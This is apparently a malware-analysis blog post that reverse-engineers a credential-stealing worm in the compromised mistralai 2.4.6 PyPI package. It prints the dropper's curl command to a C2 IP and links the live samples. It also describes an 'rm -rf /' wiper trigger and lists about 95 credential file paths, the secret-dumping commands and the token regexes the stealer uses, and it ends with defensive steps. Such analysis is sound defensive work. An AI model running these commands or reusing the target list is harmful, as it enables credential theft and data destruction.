










+++
date = '2026-05-12T18:32:40+08:00'
draft = false
title = 'Reverse Engineering the Mini Shai-Hulud Worm Affecting Mistral==2.4.6 (Part 1)'
featured = true
showSummary = true
summaryLength = 200
description = "This blog provides details regarding the Mini Shai-Hulud Worm after a cybersecurity researcher, @r4shsec, reverse engineered the compromised package, mistral==2.4.6."
summary = "This blog provides details regarding the Mini Shai-Hulud Worm after a cybersecurity researcher, @r4shsec, reverse engineered the compromised package, mistral==2.4.6."
tags = ["Mini Shai-Hulud Worm","worm","malware","pypi","python","python3","Mistral","Mistral AI","MistralAI","russia","supply chain","supply chain attack","cybersecurity","mistral==2.4.6","teampcp"]
categories = ["reverse engineering"]
+++



*Update (20/5/2026): There's another variant of the worm. However, it's mostly the same. Worth reading if you'd like.*

---

Hey everyone :wave:

The Python module for [**mistralai 2.4.6**](https://pypi.org/project/mistralai/) has been quarantined today due to a supply chain attack. As alleged by Aikido, [the npm worm, Mini Shai-Hulud, hits over 160 packages including Mistral and Tanstack.](https://www.aikido.dev/blog/mini-shai-hulud-is-back-tanstack-compromised)

It has also made its way to pypi after the package, `mistralai==2.4.6` was published to PyPI without using the legitimate **mistralai/client-python** GitHub Actions release workflow.

I decided to take my time to reverse engineer the Python files to understand how this worm works. I would also be posting both of the files here to make it easy for security researchers to analyze it as well.

> [!NOTE]
> THE FILES HERE ARE ONLY USED FOR RESEARCH PURPOSES, AS IT BENEFITS THE SECURITY COMMUNITY. THE AUTHOR ISN'T RESPONSIBLE FOR ANY MISUSE. DOWNLOAD AND RUN WITH CAUTION.
> - [mistralai-2.4.6.tar.gz](assets/mistralai-2.4.6.tar.gz)
> - [transformers.pyz](assets/transformers.pyz)

## What Does The Code Do?

When analyzing the `mistralai==2.4.6` source code from the [PyPI download files](https://pypi.org/project/mistralai/#files), in `/src/mistralai/client/__init__.py`, I've noticed that the code seems to execute some sort of bash command. 

The code also checks if it is running Linux so this only targets Linux-based Operating Systems (OS).

The other files seem to be normal.



```bash
curl -k -L -s https://83.142.209.194/transformers.pyz -o /tmp/transformers.pyz
```

| Flags  | Description |
| -- | -- |
| `-k` | This flag ignores HTTPS. The website itself or as I would like to refer, Command & Control (C2) doesn't use HTTPS. |
| `-L` | This flag follows HTTP redirects (`301`). |
| `-s` | Silent. It wouldn't print out the output. |
| `-o` | Saves the output to `/tmp/transformers.pyz`. |

Alright, so the Python script:

- Check if it's running on Linux.
- Silently downloads a Python Zip Application (`.pyz`) file named `transformers.pyz` and saves it to `/tmp/transformers.pyz`.

## Checking the Python Zip Application.

From what I've analyzed, the real payload is in the Python Zip Application, `transformers.pyz`. 

My guess is, it's named like that so it wouldn't seem suspicious.

You could extract the file by using the `unzip` command:

```bash
unzip transformers.pyz
```

### Background Checks

#### 1. Check If The Platform Is Linux.

Before downloading, it would check if the OS is running Linux.

I've noticed the same pattern for `__main__.py` after unzipping the file.



#### 2. Check If The Language Is Set To Russian.

From [2](#2-check-if-the-language-is-set-to-russian), [3](#3-check-the-amount-of-cpu-threads), and [4](#4-check-the-timezone-and-locale), it's located in the `roulette.py` file.

It would check if the OS is set to the `ru` language. If it's set to the `ru` language, it would stop the program from running.

For some reason, this doesn't target Russian individuals which makes me believe that the threat actors behind this are Russian. Russia has no extradition requests for citizens accused of cyber crime by the United States (US).



#### 3. Check The Amount of CPU Threads.

I've also noticed that the code checks the amount of CPU threads. If the CPU threads are less than 2, it would stop the program from running.

It makes me believe that this is deliberate to escape from malware sandboxes to make it harder for security researchers to analyze it.



#### 4. Check The Timezone and Locale.

This is by far the most hilarious part of this entire supply chain attack.

The code checks the locale if the system is set to Hebrew (Israel) or Persian (Iran). It would also check if the timezones are set to Jerusalem, Tel Aviv or Tehran.

If all checks above match, and 2 is a random number picked from the range of 1-6, it would play `RunForCover.mp3` at full volume. It's a 48 second long mp3 that would play a very popular but eerie video from Jun 24, 2010, "Tornado Sirens in Downtown Chicago".

Then, it would run `rm -rf /`. In layman's terms, essentially just deleting the System32 files on Windows but for Linux.





### Worm Config

The worm config file is located in the `config.py` file. The only IP address where requests are sent is `83.142.209.194`. 

It's also disguised to look like normal REST requests sent to Mistral.



### Credential Stealers

It also contains a collection of files that would steal your API keys, GitHub PATs & etc.

1. The code grabs your Azure Access Tokens.

2. The code grabs your AWS Access Key, AWS Session Token, and AWS Key IDs for all available AWS regions.

3. Get a list of 95 config file paths such as the following:

- ~/.gitconfig
- ~/.git-credentials
- ~/.config/git/credentials
- ~/.docker/config.json
- ~/.netrc
- ~/.npmrc
- ~/.config/npm/npmrc
- ~/.yarnrc
- ~/.yarnrc.yml
- ~/.pypirc
- ~/.pip/pip.conf
- ~/.config/pip/pip.conf
- ~/.cargo/credentials
- ~/.cargo/credentials.toml
- ~/.gem/credentials
- ~/.config/composer/auth.json
- ~/.kube/config
- ~/.aws/credentials
- ~/.aws/config
- ~/.config/gcloud/application_default_credentials.json
- ~/.azure/accessTokens.json
- ~/.azure/azureProfile.json
- ~/.config/gh/hosts.yml
- ~/.config/hub
- ~/.boto
- ~/.s3cfg
- ~/.pgpass
- ~/.my.cnf
- ~/.pulumi/credentials.json
- ~/.config/circleci/cli.yml
- ~/.terraform.d/credentials.tfrc.json
- ~/.config/heroku/netrc
- ~/.netrc
- ~/.flyctl/config.yml
- ~/.config/netlify/config.json
- ~/.vercel/auth.json
- ~/.config/doctl/config.yaml
- ~/.bash_history
- ~/.zsh_history
- ~/.config/claude/claude_desktop_config.json
- ~/Library/Application Support/Claude/claude_desktop_config.json
- ~/.cursor/mcp.json
- ~/.config/cursor/mcp.json
- ~/.vscode/mcp.json
- ~/.config/Code/User/settings.json
- ~/.codeium/mcp.json
- ~/.config/continue/config.json
- ~/.continue/config.json
- ~/.zed/settings.json
- ~/.config/zed/settings.json
- ~/.config/kilo/config.json
- ~/.config/opencode/config.json
- ~/.config/gh/config.yml
- ~/.config/glab-cli/config.yml
- ~/.config/atlantis/config.yaml
- ~/.vault-token
- ~/.influxdbv2/configs
- ~/.config/stripe/config.toml
- ~/.config/fly/config.yml
- ~/.config/supabase/access-token
- ~/.config/supabase/config.toml
- ~/.railway/config.json
- ~/.config/render/config.yaml
- ~/.config/planetscale/pscale.yaml
- ~/.config/neon/config.json
- ~/.config/turso/config.json
- ~/.config/wrangler/config
- ~/.wrangler/config
- ~/.config/cloudflare/wrangler.toml
- ~/.sentry-cli/credentials
- ~/.config/sentry-cli/config
- ~/.datadogrc
- ~/.config/datadog/datadog.yaml
- ~/.newrelicrc
- ~/.config/op/config
- ~/.terraformrc
- ~/.config/ngrok/ngrok.yml
- ~/.ngrok2/ngrok.yml
- ~/.config/ansible/ansible.cfg
- ~/.ansible/ansible.cfg
- ~/.ansible/vault_password_file
- ~/.config/digitalocean/config.yaml
- ~/.config/mongodb/mongosh/config
- ~/.config/mongodb/mongosh/mongosh.log
- ~/.m2/settings.xml
- ~/.gradle/gradle.properties
- ~/.sbt/credentials
- ~/.ssh/environment
- ~/.gnupg/gpg-agent.conf
- ~/.gnupg/pubring.kbx
- /etc/wireguard
- /usr/local/etc/wireguard
- /var/lib/tailscale/tailscaled.state
- /Library/Application Support/Tailscale/tailscaled.state
- /etc/tailscale/tailscaled.state

4. It would check for any content in any file that matches ``GH_TOKEN``, ``GITHUB_TOKEN``, ``GH_ENTERPRISE_TOKEN``, ``GITHUB_ENTERPRISE_TOKEN``.

5. It runs the following commands:

- `gh auth status --show-token`
- `tailscale debug prefs`
- `wg showconf all`
- `op account list --format=json` (OnePass)
- `gopass list --flat` (GoPass)
- `bw status` (Bitwarden)
- `bw list items` (Bitwarden)
- `op vault list --format=json --account={account_id}` (OnePass)

6. It also searches for these regex patterns:

- GitHub Token Pattern: `(ghp_[a-zA-Z0-9]{36}|github_pat_[a-zA-Z0-9]{22}_[a-zA-Z0-9]{59})`
- Firescale Token: `FIRESCALE\s+([A-Za-z0-9+/=]+)\.([A-Za-z0-9+/=]+)`




Once everything is collected, it would send a post request to `https://83.142.209.194/v1/weights` as an encrypted payload.



### Server

The server or Command & Control (C2) where requests are sent is located in Helsinki, Finland. Unfortunately, the Internet Service Provider (ISP) uses Stark Industries Solutions Ltd which is a "bulletproof host" that may not comply with requests easily.



It's also allegedly linked to cyberattacks.

[[Source]](https://www.greynoise.io/blog/stark-industries-shell-game)



## Defense

In summary, this is just a credential stealer. You should perhaps follow the steps below to protect yourself.

### 1. Downgrade to 2.4.5.

According to [Mistral's own security advisory](https://github.com/mistralai/client-python/security/advisories/GHSA-wx9m-wx4f-4cmg), only `mistralai==2.4.6` is the known version to be compromised. You should downgrade to `mistralai==2.4.5`.

```bash
pip uninstall -y mistralai
pip cache purge
pip install mistralai==2.4.5
```

### 2. Block Outbound Connections To The Malicious IP.

As this Python package only sends outbound connections to `83.142.209.194`, you should use a firewall to block all outbound connections to the malicious IP.

```
sudo apt update && sudo apt upgrade
sudo apt install ufw
sudo ufw deny out to 83.142.209.194
sudo ufw enable
```